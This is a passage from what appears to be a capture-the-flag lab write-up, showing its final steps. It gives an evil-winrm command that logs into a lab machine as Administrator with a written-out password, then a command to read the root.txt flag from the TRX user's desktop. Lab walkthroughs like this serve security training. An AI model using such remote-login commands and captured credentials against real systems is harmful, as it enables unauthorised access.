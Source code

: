 We can use evil-winrm to get access as Administrator:

```shell
evil-winrm -i 10.129.141.135 -u Administrator -p 'uvl4s-F$stf,NBy!fP{3wat0' -S
```

### Root Flag
Now we can get the root.txt flag (Note that root.txt is inside TRX desktop this time):

```shell
type C:\Users\TRX\Desktop\root.txt
```